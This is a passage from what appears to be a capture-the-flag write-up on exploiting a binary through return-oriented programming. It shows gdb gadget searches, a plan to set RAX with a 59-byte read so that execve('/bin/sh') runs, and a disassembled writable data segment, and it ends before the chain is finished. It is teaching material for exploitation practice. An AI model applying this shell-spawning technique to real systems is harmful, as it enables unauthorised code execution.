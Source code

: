 So our only way of executing something useful is ROP-ing to a syscall. We already know that we have ROP gadgets for RDI, RSI and RDX, but what about RAX?

```c
gdb-peda$ ropsearch "pop RAX"
Searching for ROP gadget: 'pop RAX' in: binary ranges
Not found
gdb-peda$ ropsearch "mov RAX, ?"
Searching for ROP gadget: 'mov RAX, ?' in: binary ranges
Not found
gdb-peda$ ropsearch "mov EAX, ?"
Searching for ROP gadget: 'mov EAX, ?' in: binary ranges
Not found
```

Well, nothing. So we need to find another way of modifying RAX. Let's have a look at the `read`function:

```c
On success, the number of bytes read is returned (zero indicates end of file)
```

Similar for `write`

And the result of the syscall is conveniently returned in RAX. Here we have multiple options:

- Execute a `read` syscall with 59 bytes. Part of the 59 bytes should be `/bin/sh` so we do 2 things at once: read `/bin/sh` into memory and set RAX to 59, which is the syscall number for `execve`
- Execute a `mprotect` syscall, then read shellcode, jump to it and execute
- Execute a `sigreturn` syscall to have more control over the registers and do an `execve` syscall or a `mprotect` + shellcode

I went with the first option, as it seems the simplest.

Recap:

- Read `/bin/sh\x00`into memory, along with another 51 bytes, in order to have the command in memory and also set RAX to the `execve` syscall. For this we need a writeable address. Let's look at the data segment:

```c
.data:0000000000404000 ; ===========================================================================
.data:0000000000404000
.data:0000000000404000 ; Segment type: Pure data
.data:0000000000404000 ; Segment permissions: Read/Write
.data:0000000000404000 _data           segment align_32 public 'DATA' use64
.data:0000000000404000                 assume cs:_data
.data:0000000000404000                 ;org 404000h
.data:0000000000404000                 public taunts
.data:0000000000404000 taunts          dq offset aGoodLuckTrying
.data:0000000000404000                                         ; DATA XREF: LOAD:00000000004000F8↑o
.data:0000000000404000                                         ; "Good luck trying to reverse this thing!"
.data:0000000000404008                 dq offset aYouMustBePatie ; "You must be patient, this exploit is go"...
.data:0000000000404010                 dq offset aBrushUpOnYourR ; "Brush up on your ROP skills boai"
.data:0000000000404018                 dq offset aThisRopMightBe ; "This ROP might be a bit different"
.data:0000000000404020                 db    0
.data:0000000000404021                 db  41h ; A
.data:0000000000404022                 db  40h ; @
.data:0000000000404023                 db    0
.data:0000000000404024                 db    0
.data:0000000000404025                 db    0
.data:0000000000404026                 db    0
.data:0000000000404027                 db    0
.data:0000000000404027 _data           ends
```